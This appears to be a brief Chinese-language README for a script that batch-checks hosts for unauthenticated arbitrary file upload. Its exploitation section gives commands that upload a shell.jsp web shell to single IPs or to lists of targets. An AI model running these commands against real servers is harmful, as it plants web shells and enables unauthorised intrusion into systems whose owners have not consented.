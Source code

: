 # 批量检测未授权任意文件上传
用法：

编辑upload_dir.txt改为自己的上传接口字典

检测

Usage: python3 nologin-upload-cpy.py -h 10.10.10.10 -d upload.cpyup

Usage: python3 nologin-upload-cpy.py -r ip.txt -d upload.cpyup

利用

Usage: python3 nologin-upload-exp-cpy.py -h 10.10.10.10 -d shell.jsp

Usage: python3 nologin-upload-exp-cpy.py -r ip.txt -d shell.jsp

